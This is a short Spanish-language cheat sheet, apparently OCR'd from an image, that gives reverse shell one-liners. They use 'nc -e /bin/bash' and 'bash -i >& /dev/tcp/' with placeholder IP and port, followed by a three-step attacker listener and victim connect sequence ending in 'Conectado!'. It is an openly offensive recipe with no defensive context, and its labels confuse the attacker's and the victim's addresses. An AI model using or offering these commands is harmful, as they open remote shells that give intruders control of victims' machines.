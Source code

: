 

nc -e /bin/bash XXX.XXX.XXX.XXX XXX (ip y puerto de la victima)

bash -i >& /dev/tcp/XXX.XXX.XXX.XXX/XXX 0>&1 (ip y puerto de la victima)

1-Atacante / te pones en modo escucha
nc -nlvp XXX (puerto temporal) -e /bin/bash 

2-Victima
nc -e /bin/bash XXX.XXX.XXX.XXX XXX (ip y puerto de la victima)

3-Atacante
Conectado! A empezar a escribir